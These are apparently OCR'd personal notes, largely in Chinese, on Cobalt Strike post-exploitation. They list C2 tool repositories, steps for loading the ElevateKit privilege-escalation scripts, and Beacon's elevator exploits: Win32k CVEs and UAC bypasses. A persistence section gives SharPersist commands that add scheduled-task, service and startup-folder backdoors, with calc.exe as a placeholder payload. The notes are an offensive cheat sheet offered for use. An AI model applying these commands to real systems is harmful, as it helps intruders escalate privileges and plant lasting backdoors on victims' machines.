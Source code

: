   	https://cobalt-strike.github.io/community_kit/	
	https://github.com/outflanknl/C2-Tool-Collection
	添加机器账户
	枚举域信息
	AD密码喷射等
	https://github.com/k8gege/Ladon
	https://github.com/rsmudge/ElevateKit 提权脚本
	>git clone https://github.com/rsmudge/ElevateKit.git
	>git clone https://github.com/TheKingOfDuck/myScripts.git
	Cobalt Strike -> Scripts 选择elevate.cna加载
	提权的EXP列表就会增加已经加入的模块
	beacon> runasadmin

	Beacon Command Elevators
	========================

	    Exploit                         Description
	    -------                         -----------
	    ms14-058                        TrackPopupMenu Win32k NULL Pointer Dereference (CVE-2014-4113)
	    ms15-051                        Windows ClientCopyImage Win32k Exploit (CVE 2015-1701)
	    ms16-016                        mrxdav.sys WebDav Local Privilege Escalation (CVE 2016-0051)
	    svc-exe                         Get SYSTEM via an executable run as a service
	    uac-schtasks                    Bypass UAC with schtasks.exe (via SilentCleanup)
	    uac-token-duplication           Bypass UAC with Token Duplication
	权限维持
	https://github.com/0xthirteen/MoveKit
	https://github.com/fireeye/SharPersist
	列出
	SharPersist -t schtaskbackdoor -m list
	SharPersist -t startupfolder -m list
	SharPersist -t schtask -m list
	添加后门
	SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add
	SharPersist -t schtaskbackdoor -n "Something Cool" -m remove

	SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add
	SharPersist -t service -n "Some Service" -m remove

	SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
	SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
	SharPersist -t schtask -n "Some Task" -m remove